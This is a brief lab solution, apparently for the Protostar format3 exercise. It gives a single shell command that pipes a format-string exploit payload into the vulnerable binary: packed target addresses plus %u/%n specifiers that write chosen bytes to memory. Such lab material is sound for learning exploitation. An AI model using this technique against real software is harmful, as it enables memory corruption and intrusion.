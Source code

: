 ## protostar-format3

## http://exploit-exercises.com/protostar/format3

```

echo $(python -c 'print "\xf4\x96\x04\x08"')$(python -c 'print "\xf5\x96\x04\x08"')$(python -c 'print "\xf6\x96\x04\x08"')$(python -c 'print "\xf7\x96\x04\x08"')'%52u%12$n%''17u%13$n''%173u%14$n' | ./format3

```